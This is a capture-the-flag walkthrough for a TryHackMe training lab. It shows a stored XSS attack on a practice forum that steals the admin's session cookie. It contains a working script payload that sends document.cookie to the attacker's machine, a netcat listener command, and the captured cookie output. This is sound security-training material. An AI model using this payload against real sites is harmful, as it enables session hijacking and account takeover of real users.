 # [Day 18] ELF JS

## Instructions

McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

*we need to learn more about the christmas monster*

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at `http://[your-ip-address]:3000` - it may take a few minutes to deploy.

Check out the supporting material [here](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#).

P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth.

## #1 - What is the admin's authid cookie value?

### Create an account

First thing first, let's create an account. Connect to http://10.10.4.243:3000 and click on the `Register` link. Create a fake account (`test@test.com`) and then log in using this account.

### Forum

We are guided in the supporting material about what we have to look for. It's about XSS. In our case, it will be a stored XSS. The objective is to store a XSS on the forum, and wait for the admin to log in, to steal his credentials. But there are no real users, right? This is correct, it's a virtual machine. However, we can read this on the formum:

~~~
john:don't write anything sneaky - admin will be coming here from time to time.
~~~

It doesn't give indications on the frequency of the visits from the admin, but as this is a game, we can imagine that it shouldn't be too long.

### Stored XSS

#### Proof of Concept

In javascript, we can get the cookies with `document.cookie`.

The objective is to post a javascript that will redirect the user to our own machine's web server to get the value of the cookie. If you don't have a web server, you can open a socket with netcat, that will listen on port 80/tcp. It won't render any content, but we don't really care, all we want is to steal the cookie.

~~~
$ sudo nc -lnvp 80
~~~

Now that we have our listener, let's post the following content on the forum (replace `**` to match your local tun0 ip):

```javascript
<script>window.location='http://10.9.**.**/?cookie='+document.cookie</script>
```

Immediately, the page reloads and the listener shows the `authid` cookie:

~~~
$ sudo nc -lnvp 80
listening on [any] 80 ...
connect to [10.9.**.**] from (UNKNOWN) [10.9.**.**] 49674
GET /?cookie=authid=9dd22399fb1f4fdacb008d861576680c4d34607b HTTP/1.1
Host: 10.9.**.**
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.70.169:3000/
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
~~~

#### Now for real

The problem now is that we screwed up the forum. Not a real issue, let's begin from start and terminate the machine, deploy a new one. This time though, we will first post the comment, and then we'll open the listener.

After a while, we get the admin's `authid` cookie:

~~~
$ sudo nc -lnvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 10.10.138.108 45766 received!
GET /?cookie=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: 10.9.35.106
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
~~~

Answer: `2564799a4e6689972f6d9e1c7b406f87065cbf65`

